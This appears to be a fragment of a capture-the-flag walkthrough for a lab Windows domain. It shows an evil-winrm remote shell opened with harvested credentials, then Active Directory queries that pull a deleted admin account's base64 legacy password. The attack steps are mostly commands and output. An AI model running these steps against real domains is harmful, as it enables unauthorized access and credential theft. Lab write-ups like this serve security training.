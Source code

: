 
evil-winrm -i 10.129.155.114 -u arksvc -p w3lc0meFr31nd 

$ evil-winrm -i 10.129.155.114 -u arksvc -p w3lc0meFr31nd                                                                                                               127 ⨯

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> ls ..\Desktop


    Directory: C:\Users\arksvc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/4/2021   4:24 PM           1031 WinDirStat.lnk


*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects


...[snip]...

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059



*Evil-WinRM* PS C:\Users\arksvc\Documents> 


Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *

*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin) (isDeleted=TRUE))" -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True